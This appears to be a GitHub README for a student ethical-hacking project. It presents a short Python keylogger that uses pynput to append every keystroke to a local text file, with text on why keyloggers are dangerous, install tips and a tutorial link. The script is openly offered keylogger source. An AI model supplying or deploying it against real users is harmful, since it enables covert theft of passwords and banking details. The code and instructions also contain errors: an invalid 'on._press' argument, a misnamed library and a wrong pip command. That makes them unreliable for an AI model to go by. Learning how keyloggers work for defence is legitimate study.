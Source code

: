 # Keylogger-Python &nbsp; <img src="https://github.com/user-attachments/assets/fa080d46-0f3c-4c19-a3fb-6324e1b6cdf5" width="36">

## Background and Significance 🔍
Keylogging is the method of storing key-strokes on a device, particularly without the user knowing. Having a program such as this running on your device will result in the unaware surrendering of confidential data to malicious hackers, including login credentials and banking details.

## Objective 🥅
This mini-project aims to create a successful key-logging script, that when executed, will capture keystrokes made by the user in any environment on the device and store them in a text file automatically for viewing. This project therefore demonstrates the basics of keylogging, highlighting the dangers of this simple technique.

## Skills Learned and Improved ✅
- Learning this attacking technique strengthened my ethical hacking fundamentals.
- Increased cybersecurity awareness surrounding even simple malicious methods.
- Honing my Python skills.

## Tools/Languages Used 🔨
- VSCode
- Python

## Script 📜
<code>
from pynput import keyboard

def keyPressed(key):
    print(str(key))
    with open("keyfile.txt", 'a') as logKey:
        try:
            char = key.char
            logKey.write(char)
        except:
            print("Error: Character could not be obtained.")

if __name__ == "__main__":
    listener = keyboard.Listener(on._press=keyPressed) 
    listener.start()
    input()
</code>

## How it Works ❓
1. Keystrokes are listened for using pynut library
2. When this script is executed, these keystrokes are then appended to a file (keyfile.txt) and also appear in the terminal
<br>
Example shown below:
![image](https://github.com/user-attachments/assets/ee65fd43-7558-43df-bbf4-e3f605fe3c0d)


   
## Tips & Resources ✍️📖
#### Tips
- Install pynput library first! You can use either 'py -m install pynput' or 'pip install pynput' in the terminal

#### Resources
- Keylogging Python Tutorial by <strong> Shaun Halverson </strong>: <href> https://www.youtube.com/watch?v=mDY3v2Xx-Q4 </href>
